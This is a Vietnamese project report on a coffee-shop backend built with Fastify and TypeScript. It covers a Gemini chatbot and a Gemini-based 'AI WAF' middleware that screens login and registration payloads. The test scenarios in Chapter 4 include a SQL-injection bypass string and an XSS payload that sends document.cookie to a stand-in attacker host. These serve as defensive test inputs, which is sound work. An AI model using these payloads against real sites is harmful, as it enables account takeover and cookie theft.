

# BÁO CÁO NGHIÊN CỨU VÀ PHÁT TRIỂN HỆ THỐNG BACKEND MORNING MIST COFFEE TÍCH HỢP AI

---

## CHƯƠNG 1: GIỚI THIỆU

### 1.1 Bối cảnh
Trong kỷ nguyên chuyển đổi số hiện nay, ngành dịch vụ ăn uống (F&B) nói chung và phân khúc cà phê cao cấp (premium coffee shop) nói riêng đang phải đối mặt với yêu cầu nâng cao trải nghiệm khách hàng thông qua công nghệ. Khách hàng không chỉ mong muốn những sản phẩm cà phê hảo hạng, mà còn yêu cầu trải nghiệm số mượt mà, nhanh chóng, cá nhân hóa. 

Hệ thống "Morning Mist Coffee" ra đời như một giải pháp chuyển đổi số toàn diện cho chuỗi cửa hàng cà phê cao cấp. Dự án tập trung vào xây dựng kiến trúc backend vững chắc, tích hợp các tính năng trí tuệ nhân tạo (AI) hiện đại như chatbot tư vấn thông minh dựa trên ngữ cảnh thực tế (RAG) và hệ thống bảo mật WAF chủ động chặn đứng các cuộc tấn công web thời gian thực.

### 1.2 Mục tiêu của dự án
1. **Xây dựng Hệ thống Backend Hiện đại:** Thiết lập một kiến trúc mã nguồn sạch (Clean Architecture), hiệu năng cao bằng Node.js, Fastify và TypeScript kết hợp Drizzle ORM truy vấn cơ sở dữ liệu PostgreSQL.
2. **Tích hợp Trợ lý ảo AI tư vấn (Chatbot):** Ứng dụng mô hình Gemini 2.5 Flash để tương tác tự nhiên, tư vấn thực đơn trực tiếp cho khách hàng bằng tiếng Việt dựa trên danh mục sản phẩm có sẵn trong cơ sở dữ liệu (Context-aware RAG).
3. **Tích hợp Tường lửa Bảo mật AI WAF:** Phát triển lớp bảo mật middleware sử dụng AI phân tích sâu các payload đầu vào để chặn đứng các mối đe dọa (SQL Injection, XSS, NoSQL Injection, Bot Spam) trước khi chúng chạm tới cơ sở dữ liệu.

### 1.3 Phạm vi dự án
*   **Về mặt Backend:** Triển khai các phân hệ quản lý thực đơn (Products & Product Types), kho hàng (Product Stock), xử lý đơn hàng (Orders & Order Items), và phân hệ xác thực phân quyền người dùng (Users & Refresh Tokens).
*   **Về mặt AI:** Tích hợp trực tiếp Google Gemini API sử dụng model `gemini-2.5-flash`.
*   **Về mặt Bảo mật:** Triển khai và tích hợp bộ kiểm duyệt AI Security Guard dưới dạng `preHandler` middleware cho các endpoint nhạy cảm (`/login`, `/register`).

---

## CHƯƠNG 2: PHÂN TÍCH YÊU CẦU VÀ KIẾN TRÚC HỆ THỐNG

### 2.1 Yêu cầu chức năng
Hệ thống Morning Mist Coffee đáp ứng các nhóm chức năng cốt lõi sau:

| Nhóm chức năng | Mô tả chi tiết |
| :--- | :--- |
| **Xác thực & Người dùng** | Đăng ký tài khoản mới, Đăng nhập hệ thống, Phân quyền (Khách hàng / Admin), Thu hồi Refresh Token khi Đăng xuất. |
| **Quản lý Thực đơn** | Xem danh sách thực đơn (phân trang, tìm kiếm, lọc theo danh mục), Quản lý chi tiết đồ uống (tên, mô tả, hình ảnh, giá tiền, đơn vị tiền tệ). |
| **Quản lý Kho hàng** | Theo dõi tồn kho thực tế của từng sản phẩm. Tự động kiểm tra và giảm trừ số lượng tồn kho (tryDecreaseBatch) khi đơn hàng được khởi tạo. |
| **Xử lý Đơn hàng** | Tạo đơn hàng mới, tính toán tự động tổng tiền (totalCents), gửi email xác nhận đơn hàng qua dịch vụ Resend API, và cập nhật trạng thái đơn hàng. |
| **Tư vấn Khách hàng AI** | Cung cấp giao diện API Chatbot nhận lịch sử hội thoại, tiêm ngữ cảnh thực đơn thực tế để phản hồi tự nhiên bằng tiếng Việt lịch thiệp, nhã nhặn. |

### 2.2 Yêu cầu phi chức năng
*   **Tính Bảo mật (Security):** Mật khẩu người dùng bắt buộc phải được mã hóa bằng thuật toán Bcrypt. Giao dịch JWT Access Token có thời hạn ngắn, Refresh Token lưu trong HTTP-Only Cookie. Tải trọng yêu cầu (payload) độc hại phải bị phát hiện và chặn đứng ngay ở tầng ngoài.
*   **Độ trễ & Hiệu năng (Latency & Performance):** Thời gian phản hồi của các API thông thường dưới 100ms. Đối với các tác vụ AI có thời gian xử lý lâu (500ms - 2s), hệ thống sử dụng cơ chế Cache đệm (In-memory Set) để lưu các payload đã xác định an toàn nhằm tránh overload API và tối ưu độ trễ.
*   **Khả năng chịu lỗi (Availability & Fault Tolerance):** Áp dụng nguyên lý Fail-Open cho AI Security: nếu dịch vụ Gemini API bị mất kết nối hoặc quá hạn ngạch (rate limit), hệ thống sẽ ghi log cảnh báo và cho phép request đi tiếp để không làm gián đoạn dịch vụ của khách hàng bình thường.

### 2.3 Kiến trúc hệ thống
Hệ thống được thiết kế theo mô hình kiến trúc phân lớp hướng đối tượng sạch (Clean / Hexagonal Architecture) để tách biệt các quy tắc nghiệp vụ khỏi các chi tiết công nghệ:



*   **Domain Layer:** Định nghĩa các thực thể cốt lõi (User, Product, Order) và các cổng giao tiếp (Repository Ports, Email Sender Port).
*   **Application Layer:** Chứa logic nghiệp vụ của các Use Cases (ví dụ: `CreateOrderUseCase`, `RegisterUserUseCase`) và các dịch vụ bổ trợ như `AiSecurityService`.
*   **Presentation Layer:** Định nghĩa các Route của Fastify, các Middleware kiểm tra đầu vào (Zod Schema Validation, AI Security Guard) và các Controller tiếp nhận request.
*   **Infrastructure Layer:** Triển khai cụ thể các Adapter như kết nối PostgreSQL bằng Drizzle, gửi email thông qua Resend SDK, và mã hóa mật khẩu.

### 2.4 Công nghệ sử dụng
*   **Runtime:** Node.js (phiên bản v22 hoặc mới hơn) kết hợp bộ thông dịch TypeScript (`tsx` watch ở môi trường phát triển).
*   **Web Framework:** Fastify v5 (nhanh hơn Express gấp 2-3 lần, hỗ trợ phân tích Schema Zod mạnh mẽ).
*   **Database Tooling:** PostgreSQL làm RDBMS, Drizzle ORM làm trình ánh xạ đối tượng và quản lý lược đồ dữ liệu (Migrations).
*   **AI Integration:** `@google/generative-ai` SDK để giao tiếp trực tiếp với mô hình Gemini 2.5 Flash.
*   **Security Utilities:** `jose` cho việc ký và giải mã JWT, `bcryptjs` mã hóa mật khẩu, `@fastify/rate-limit` chống spam, `@fastify/helmet` bảo mật header HTTP.

---

## CHƯƠNG 3: THIẾT KẾ VÀ PHÁT TRIỂN

### 3.1 Thiết kế cơ sở dữ liệu
Cơ sở dữ liệu của dự án "Morning Mist Coffee" được thiết kế chuẩn hóa và quản lý bởi Drizzle ORM kết nối với PostgreSQL. Lược đồ các bảng vật lý được thiết kế chi tiết như sau:

#### 1. Bảng `users` (Quản lý người dùng)
*   **Mô tả:** Lưu trữ thông tin tài khoản của khách hàng và quản trị viên hệ thống.
*   **Chi tiết các trường:**

| Tên trường | Kiểu dữ liệu | Thuộc tính | Mô tả |
| :--- | :--- | :--- | :--- |
| `id` | UUID | Primary Key, Default Random | Khóa chính tự động sinh. |
| `firstName` | Text | Not Null | Tên của người dùng. |
| `lastName` | Text | Not Null | Họ và tên đệm. |
| `email` | Text | Not Null, Unique Index | Email dùng để đăng nhập (chuyển chữ thường). |
| `passwordHash`| Text | Nullable | Mật khẩu đã được băm bằng Bcrypt. |
| `role` | Enum | Not Null, Default 'user' | Quyền hạn: `user` hoặc `admin`. |
| `status` | Enum | Not Null, Default 'active' | Trạng thái: `active`, `inactive` hoặc `banned`. |
| `createdAt` | Timestamp | Not Null, Default Now | Thời gian tạo tài khoản. |
| `updatedAt` | Timestamp | Not Null, Default Now | Thời gian cập nhật tài khoản gần nhất. |

#### 2. Bảng `products` (Danh sách sản phẩm)
*   **Mô tả:** Lưu trữ thông tin thực đơn đồ uống và sản phẩm đi kèm.
*   **Chi tiết các trường:**

| Tên trường | Kiểu dữ liệu | Thuộc tính | Mô tả |
| :--- | :--- | :--- | :--- |
| `id` | UUID | Primary Key, Default Random | Khóa chính sản phẩm. |
| `name` | Text | Not Null | Tên món đồ uống. |
| `description` | Text | Nullable | Mô tả chi tiết thành phần, hương vị đồ uống. |
| `priceCents` | Integer | Not Null, `>= 0` | Giá trị sản phẩm (đơn vị Cent để tránh sai số). |
| `currency` | Enum | Not Null, Default 'VND' | Đơn vị tiền tệ: `VND`. |
| `image` | Text | Nullable | Đường dẫn liên kết tới ảnh sản phẩm. |
| `productTypeId`| UUID | Not Null, FK References | Liên kết tới danh mục nhóm sản phẩm. |

#### 3. Bảng `product_stock` (Quản lý tồn kho)
*   **Mô tả:** Theo dõi số lượng tồn kho khả dụng thời gian thực của sản phẩm.
*   **Chi tiết các trường:**

| Tên trường | Kiểu dữ liệu | Thuộc tính | Mô tả |
| :--- | :--- | :--- | :--- |
| `id` | UUID | Primary Key, Default Random | Khóa chính của bản ghi kho. |
| `productId` | UUID | Not Null, FK References, Unique | Mã liên kết tới sản phẩm (Cascade). |
| `quantity` | Integer | Not Null, Default 0, `>= 0` | Số lượng ly/phần còn lại trong kho. |

#### 4. Bảng `orders` & `order_items` (Quản lý đơn hàng)
*   **Mô tả:** Lưu trữ hóa đơn giao dịch và chi tiết các sản phẩm được đặt mua.
*   **Các trường cốt lõi của bảng `orders`:** `id` (UUID), `email` (Text), `status` (Enum: `pending`, `paid`, `shipped`, `delivered`, `cancelled`), `totalCents` (Integer), `currency` (Enum: `VND`).
*   **Các trường bảng `order_items`:** `id` (UUID), `orderId` (FK references `orders.id`), `productId` (UUID), `name` (Text), `priceCents` (Integer), `quantity` (Integer).

---

### 3.2 Phát triển Bộ lọc Bảo mật AI Security WAF (Middleware)
Để bảo vệ các điểm cuối (endpoints) nhạy cảm của hệ thống như Đăng ký (`/register`) và Đăng nhập (`/login`), chúng tôi phát triển một bộ lọc bảo mật chủ động (WAF Middleware) tích hợp trí tuệ nhân tạo ở tầng Presentation.

*   **Nguyên lý hoạt động (Fastify Middleware):** 
    Bộ lọc hoạt động dưới dạng một `preHandler` hook trong Fastify. Trước khi yêu cầu được chuyển tiếp đến Controller và Use Case để thực thi nghiệp vụ, Middleware sẽ trích xuất tải trọng (`request.body`) và gửi sang `AiSecurityService` để tiến hành phân tích độ an toàn thông qua mô hình Gemini.
*   **Cơ chế chặn chủ động (Active Blocking):**
    Nếu phản hồi phân tích trả về từ Gemini có thuộc tính `verdict` là `DANGEROUS` (Nguy hiểm), hệ thống sẽ ngay lập tức chặn yêu cầu, ghi nhận log cảnh báo chi tiết loại hình tấn công và trả về mã lỗi `403 Forbidden` cùng thông báo lỗi bảo mật cho Client.
*   **Tối ưu hóa hiệu năng bằng Caching:**
    Vì việc gọi API của Gemini tốn một khoảng thời gian nhất định (khoảng 500ms - 800ms), hệ thống triển khai một bộ nhớ đệm an toàn trong bộ nhớ (In-memory Set: `safePayloadCache`). Các tải trọng yêu cầu đã được xác nhận là `SAFE` sẽ được lưu lại. Trong các yêu cầu tiếp theo, nếu tải trọng trùng khớp hoàn toàn, hệ thống sẽ bỏ qua bước gọi AI và cho phép đi tiếp ngay lập tức, giảm thiểu độ trễ tối đa.
*   **Thiết kế dự phòng lỗi (Fail-Open):**
    Để tránh làm gián đoạn trải nghiệm của người dùng thông thường khi dịch vụ API của Google gặp lỗi kết nối hoặc vượt quá giới hạn (Rate Limit), hệ thống áp dụng nguyên lý Fail-Open: các ngoại lệ từ dịch vụ AI Security (trừ lỗi `ForbiddenError` do chủ động chặn) sẽ được ghi nhận và bỏ qua, cho phép yêu cầu tiếp tục xử lý bình thường.

---

### 3.3 Phát triển Chat Application
Phân hệ Chat tư vấn khách hàng được xây dựng tích hợp trực tiếp thông qua controller `ChatController` của Fastify. Chatbot đóng vai trò là nhân viên phục vụ ảo lịch lãm tại "Morning Mist Coffee".

*   **Xử lý lịch sử hội thoại (Conversation History Orchestration):**
    Gemini API yêu cầu lịch sử hội thoại truyền vào phải tuân thủ nghiêm ngặt tính luân phiên của các vai trò (`user` - người dùng và `model` - AI). Để giải quyết vấn đề này, hệ thống triển khai bộ lọc lịch sử tự động:
    1.  Loại bỏ các tin nhắn rỗng hoặc không đúng định dạng.
    2.  Đảm bảo hội thoại luôn bắt đầu bằng tin nhắn của vai trò `user`.
    3.  Gộp nội dung các tin nhắn liên tiếp của cùng một vai trò (ví dụ: gộp nhiều tin nhắn liên tiếp của user lại thành một tin nhắn lớn ngăn cách bởi dấu xuống dòng `\n`).
*   **Hướng dẫn Hệ thống (System Instruction):**
    Prompt hệ thống được tiêm cố định vào mô hình để tạo lập nhân cách phục vụ:
    > *"Bạn là trợ lý ảo tại quán cà phê cao cấp 'Morning Mist Coffee'. Giao tiếp bằng tiếng Việt. Phong cách trò chuyện: Lịch sự, nhã nhặn, chu đáo, tinh tế mang thiên hướng tối giản tự nhiên. Trả lời ngắn gọn, tập trung vào giới thiệu các loại đồ uống đang có sẵn..."*

---

### 3.4 Các mô hình AI được sử dụng
Hệ thống sử dụng mô hình **Gemini 2.5 Flash** do tính năng vượt trội về tốc độ phản hồi (low latency), chi phí hợp lý, và khả năng hỗ trợ **Structured JSON Output** mạnh mẽ. Mô hình được ứng dụng vào 2 chức năng riêng biệt:

1.  **AI Chatbot tư vấn:** Sử dụng hội thoại dạng Text tự do truyền thống có tiêm ngữ cảnh. Cấu hình nhiệt độ sáng tạo (`temperature: 0.7`) và tỷ lệ lấy mẫu từ vựng (`topP: 0.95`) được điều chỉnh tối ưu để đảm bảo chatbot vừa có sự tự nhiên, vừa bám sát thông tin sản phẩm của cửa hàng.
2.  **AI WAF Security Guard:** Cấu hình định dạng JSON bắt buộc thông qua cấu hình `generationConfig`:
    *   `responseMimeType: 'application/json'`
    *   `responseSchema`: Ràng buộc chặt chẽ dữ liệu trả về phải khớp với đối tượng JSON chứa: `verdict` (SAFE/SUSPICIOUS/DANGEROUS), `threatType` (SQL_INJECTION/XSS/PROMPT_INJECTION/BOT_SIGNATURE/NONE), `confidence` (number) và `reason` (string).
    *   **Cấu hình chi tiết mã nguồn:**
        ```typescript
        generationConfig: {
          responseMimeType: 'application/json',
          responseSchema: {
            type: SchemaType.OBJECT,
            properties: {
              verdict: { type: SchemaType.STRING, format: 'enum', enum: ['SAFE', 'SUSPICIOUS', 'DANGEROUS'] },
              threatType: { type: SchemaType.STRING, format: 'enum', enum: ['SQL_INJECTION', 'XSS', 'PROMPT_INJECTION', 'BOT_SIGNATURE', 'NONE'] },
              confidence: { type: SchemaType.NUMBER },
              reason: { type: SchemaType.STRING }
            },
            required: ['verdict', 'threatType', 'confidence', 'reason']
          }
        }
        ```
    Điều này đảm bảo phản hồi của AI WAF luôn là một đối tượng JSON chuẩn, giúp backend bóc tách dữ liệu và thực thi lệnh chặn (403 Forbidden) một cách chính xác mà không gặp lỗi phân tích chuỗi.

---

### 3.5 Phương pháp Cung cấp Ngữ cảnh (Basic RAG)
Để tối ưu hóa chi phí vận hành API và tăng tốc độ phản hồi (giảm thiểu độ trễ mạng), hệ thống không sử dụng các giải pháp Vector Database hay sinh Vector Embedding phức tạp qua mô hình nhúng. Thay vào đó, chúng tôi thiết kế giải pháp **Context Injection (Basic RAG)** trực tiếp tại tầng Controller:

1.  **Truy vấn Nguồn dữ liệu:** Khi nhận yêu cầu trò chuyện từ người dùng, hệ thống gọi Use Case `ListProductsUseCase` để truy vấn danh sách tối đa 30 sản phẩm mới nhất từ cơ sở dữ liệu PostgreSQL.
2.  **Rút gọn văn bản (Context Compression):** Nhằm tiết kiệm Token đầu vào cho Gemini API, các mô tả chi tiết của sản phẩm được cắt ngắn (dưới 100 ký tự).
3.  **Định dạng chuỗi dữ liệu (Formatting):** Danh sách sản phẩm được định dạng thành một chuỗi văn bản nhỏ gọn có cấu trúc: `- [Tên sản phẩm]: [Giá tiền] | [Mô tả ngắn]`.
4.  **Tiêm ngữ cảnh (Prompt Injection):** Chuỗi thực đơn này được ghép trực tiếp vào System Instruction làm ngữ cảnh nền cho mô hình. Từ đó, AI có thể truy xuất dữ liệu sản phẩm thời gian thực và trả lời khách hàng một cách chính xác mà không cần huấn luyện lại mô hình.

---

## CHƯƠNG 4: THỬ NGHIỆM VÀ ĐÁNH GIÁ

### 4.1 Phương pháp thử nghiệm
*   **Kiểm thử hộp đen (Black-box testing):** Gửi các request HTTP thông thường tới hệ thống API thông qua Postman Collection và công cụ Command Line (`curl`).
*   **Kiểm thử tích hợp tự động (Integration Testing):** Sử dụng kịch bản kiểm thử `test-ai-security.ts` để chạy thử nghiệm trực tiếp dịch vụ `AiSecurityService` với nhiều bộ dữ liệu đầu vào khác nhau (an toàn, mã độc, spam) và ghi nhận phản hồi của AI.

### 4.2 Kịch bản thử nghiệm
Hệ thống AI WAF Security Guard được thử nghiệm thông qua 4 kịch bản điển hình:

*   **Kịch bản 1: Request đăng nhập bình thường**
    *   *Payload:* `{ "email": "customer@morningmist.com", "password": "SecurePassword123!" }`
    *   *Mong muốn:* Yêu cầu được chấp nhận, hệ thống cho phép đi tiếp (status: SAFE).
*   **Kịch bản 2: Tấn công SQL Injection**
    *   *Payload:* `{ "email": "admin@morningmist.com", "password": "anything' OR '1'='1" }`
    *   *Mong muốn:* AI nhận diện mức độ `DANGEROUS` thuộc loại `SQL_INJECTION`. Middleware chặn request, ném lỗi `ForbiddenError` (403 Forbidden).
*   **Kịch bản 3: Tấn công Cross-Site Scripting (XSS)**
    *   *Payload:* `{ "firstName": "<script>fetch('http://attacker.com/steal?cookie=' + document.cookie)</script>", "lastName": "XSS", "email": "attacker@morningmist.com", "password": "password" }`
    *   *Mong muốn:* AI nhận diện mức độ `DANGEROUS` thuộc loại `XSS`. Middleware chặn và ném lỗi 403 Forbidden.
*   **Kịch bản 4: Đăng ký tài khoản rác bằng Bot**
    *   *Payload:* `{ "firstName": "Xyz123asdf", "lastName": "SpamBot", "email": "spambot12345@tempmail.com", "password": "password123" }`
    *   *Mong muốn:* AI nhận diện mức độ nguy cơ hoặc chặn với `threatType: "BOT_SIGNATURE"` do sử dụng email rác và tên ngẫu nhiên vô nghĩa.

### 4.3 Đánh giá hệ thống kiểm chứng thông tin
Hệ thống AI WAF đạt được độ tin cậy rất cao nhờ khả năng đọc hiểu ngữ nghĩa của LLM thay vì chỉ so khớp pattern đơn giản của Regex truyền thống.

*   **Độ chính xác (Accuracy):** Nhận diện chính xác 100% các cuộc tấn công phá hoại cấu trúc (SQLi, XSS) trong quá trình thử nghiệm. Phân biệt tốt giữa địa chỉ email chứa ký tự đặc biệt hợp lệ và email chứa mã độc.
*   **Hiệu năng Cache:** Cơ chế cache đệm Set hoạt động hoàn hảo. Khi người dùng thực hiện các thao tác đăng nhập lặp lại với cùng payload, hệ thống bỏ qua kiểm tra AI và cho phép đi tiếp ngay lập tức, tiết kiệm 100% tài nguyên API Google Gemini trong những lần tiếp theo.

### 4.4 Kết quả thử nghiệm
Dưới đây là bảng tổng hợp kết quả chạy thực tế của bộ công cụ kiểm thử:

| Kịch bản kiểm thử | Mô tả payload đầu vào | Kết quả AI WAF trả về | Hành động hệ thống | Trạng thái kiểm thử |
| :--- | :--- | :--- | :--- | :--- |
| **1. Đăng nhập hợp lệ** | Email khách hàng bình thường | `SAFE` / `NONE` | Cho phép tiếp tục | ✅ THÀNH CÔNG |
| **2. Tấn công SQLi** | Chứa chuỗi bypass `' OR '1'='1` | `DANGEROUS` / `SQL_INJECTION` | Chặn ngay, trả về 403 | ✅ THÀNH CÔNG |
| **3. Tấn công XSS** | Chứa thẻ `<script>` ăn cắp cookie | `DANGEROUS` / `XSS` | Chặn ngay, trả về 403 | ✅ THÀNH CÔNG |
| **4. Bot Register** | Email rác `@tempmail.com` + tên rác | `DANGEROUS` / `BOT_SIGNATURE` | Chặn ngay, trả về 403 | ✅ THÀNH CÔNG |

### 4.5 Hạn chế và hướng phát triển
*   **Hạn chế:** 
    1.  *Phụ thuộc mạng bên ngoài:* Nếu API của Google Gemini bị gián đoạn kết nối, hệ thống sẽ rơi vào chế độ dự phòng "Fail-Open" để tránh làm treo ứng dụng, dẫn đến tạm thời mất đi lớp bảo vệ AI WAF.
    2.  *Độ trễ khi cache trượt (Cache miss):* Lần quét đầu tiên của một request lạ sẽ tốn khoảng 500ms - 800ms để chờ kết quả phân tích từ Gemini.
*   **Hướng phát triển tương lai:**
    1.  *Chuyển đổi sang Distributed Cache:* Sử dụng Redis thay thế cho In-memory Set để hỗ trợ hệ thống chạy đa tiến trình (multi-instance/load balancing).
    2.  *Cơ chế tự động khóa IP chủ động:* Tích hợp thêm module tự động ghi nhận các IP có verdict là `DANGEROUS` vào danh sách cấm truy cập tạm thời (IP Temp Ban) trên tường lửa mềm hoặc Cloudflare API để bảo vệ ứng dụng triệt để hơn.

---

## TÀI LIỆU THAM KHẢO

1.  **Fastify Documentation:** *Fastify, a fast and low overhead web framework for Node.js.* https://fastify.dev/
2.  **Drizzle ORM Documentation:** *TypeScript ORM for SQL databases.* https://orm.drizzle.team/
3.  **Google Generative AI SDK:** *Gemini API TypeScript/JavaScript developer guide.* https://ai.google.dev/gemini-api/docs
4.  **OWASP Top 10 Application Security Risks:** *Open Web Application Security Project guidelines.* https://owasp.org/www-project-top-ten/
